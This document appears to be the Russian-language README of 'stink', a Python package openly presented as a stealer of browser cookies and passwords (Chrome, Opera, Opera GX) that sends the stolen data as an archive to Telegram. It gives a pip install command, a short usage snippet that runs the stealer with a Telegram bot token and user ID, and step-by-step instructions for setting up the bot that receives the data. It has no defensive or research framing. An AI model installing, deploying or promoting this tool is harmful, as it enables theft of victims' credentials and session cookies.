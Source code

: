 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.
<p align="left">
  <a href="">
    <img src="docs/1.png" width="500px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой ```_bot``` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду ```/token```, затем название бота с прикладкой ```@``` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="500px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.
<p align="left">
  <a href="">
    <img src="docs/4.png" width="500px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
